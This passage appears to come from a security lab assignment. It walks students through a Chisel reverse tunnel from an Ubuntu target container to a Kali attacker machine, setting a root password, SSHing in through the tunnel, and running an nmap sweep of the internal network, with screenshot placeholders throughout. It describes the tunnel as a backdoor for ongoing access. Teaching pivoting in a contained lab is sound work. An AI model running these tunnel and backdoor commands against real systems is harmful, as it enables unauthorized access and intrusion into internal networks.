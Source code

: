 ### 2. SSH Tunneling and Remote Access
*Scenario: An attacker wants to expose the target's internal SSH service to their own machine using reverse port forwarding since direct access is blocked by a firewall.*

**Attacker** | Start the Chisel Server on Kali root-user terminal:
```bash
chisel server -p 8080 --reverse 
```

Before we start the Chisel Client on **ubuntu_target**, we will need to make sure we can log into the **ubuntu_target** user from the **Kali machine** using `ssh`. We can connect to a remote system using `ssh` with a username and password. Our containers are set up so that we access them as the root user and all we need to do is set a password (e.g., "chisel") since `Docker` containers do not have `ssh` passwords set, especially for the root user. 

**Target** | To set a password, make sure you are inside of **ubuntu_target** and run: 
```bash
passwd root
```

**Target** | After setting the password, run the Chisel Client on **ubuntu_target**:
```bash
chisel client -v http://<attacker-ip>:8080 R:2222:localhost:22 
```

**Attacker** | In a **Kali root-user terminal**, try to connect to the **ubuntu_target** user by running: 
```bash
ssh root@localhost -p 2222 
```

> ✦ SS3: Show the successful login to the user on **ubuntu_target** using `ssh` from **Kali**: [insert screenshot]

We can use this to our advantage. `ssh` allows a reliable connection inside the target machine. Now that we are inside the internal network, we can enumerate the internal network. We can learn what networks **ubuntu_target** is connected to or find other subnets and gateways you could not previously see as the attacker, or **Kali machine**. This creates a reliable backdoor for ongoing access.

> ✦ SS4: Try using `ip a` within `ssh`: [insert screenshot]

We can also use `nmap` to find other live hosts and look for internal web servers, databases, printers, and other devices that Kali would never be able to see without this tunnel. Install `nmap` and then issue a command with it: 

```bash
apt update && apt install nmap -y 

nmap -sP <internal-net>/24 
```
> ✦ SS5: Show the `nmap` scan results: [insert screenshot]


### 3. SMB Share Discovery
*Scenario: An attacker wants to identify shared folders on an internal machine that is running an SMB server. Direct access to the internal network is blocked by a firewall so the attacker uses reverse port forwarding to expose the internal SMB port to their own external machine and then retrieves one of the files.*
